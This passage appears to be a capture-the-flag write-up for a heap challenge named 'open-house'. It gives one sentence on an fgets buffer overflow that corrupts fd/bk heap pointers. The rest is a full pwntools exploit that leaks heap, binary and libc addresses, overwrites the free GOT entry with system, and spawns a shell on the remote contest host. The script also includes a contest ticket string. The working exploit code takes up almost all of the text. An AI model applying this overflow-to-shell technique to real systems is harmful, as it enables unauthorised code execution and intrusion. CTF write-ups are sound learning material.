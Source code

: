 ```cpp
    return fgets(data_buf, 528, stdin);
  }
  return result;
}
```

Classical buffer overflow right? the data_buf gets 528 bytes in so the fd and bk pointers will be overwritten. We will abuse this bug combined with the heap leak to achieve libc leak and write-what-where primitive.

### Exploit

```python
from pwn import *
from time import sleep

#io = process('./chall')
io = remote('open-house-6dvpeatmylgze.shellweplayaga.me', 10001)
elf = ELF('./open-house')
libc = ELF('./libc.so.6')

def d(i):
    io.sendlineafter(b'> ', b'd')
    io.sendlineafter(b'delete?\n', str(i).encode())
def m(i, dat):
    io.sendlineafter(b'> ', b'm')
    io.sendlineafter(b'replace?\n', str(i).encode())
    io.sendlineafter(b'with?\n', dat)
def c(dat):
    io.sendlineafter(b'> ', b'c')
    io.sendlineafter(b'!\n', dat)
def v():
    io.sendlineafter(b'> ', b'v')

io.sendline(b'ticket{FloorUtilities9778n23:S-bue6uE7pNz4Fu-lONAjMZyp2OaujqAgmb_3Pg2oQYs2_t1}')

c(b'd'*1000) # 11
c(b'ddddd') # 12
c(b'ok') # 13
v()
io.recvuntil(b'd'*512)
io.recv(4)
heap = u32(io.recv(4))+0x210
log.info('heap: '+hex(heap))
m(2, b'd'*0x1f0+p32(0)+p32(heap+0x1220))
m(12, b'd'*512+p32(heap-0x12a0)+p32(heap+0x1010))
v()
for i in range(2):
    io.recvuntil(b'd'*512)
io.recvuntil(b'**** - ')
io.recv(4)
elf.address = u32(io.recv(4)) - 0x3164
log.info('elf: '+hex(elf.address))
m(12, b'd'*512+p32(elf.got['fputs'])+p32(heap+0x1010))
v()
for i in range(2):
    io.recvuntil(b'd'*512)
io.recvuntil(b'**** - ')
libc.address = u32(io.recv(4)) - libc.sym['fputs']
log.info('libc: '+hex(libc.address))
m(1, b'sh')
m(12, b'd'*512+p32(elf.got['free'])+p32(heap+0x1010))
m(13, p32(libc.sym['system'])+p32(libc.sym['fgets']))
d(1)
```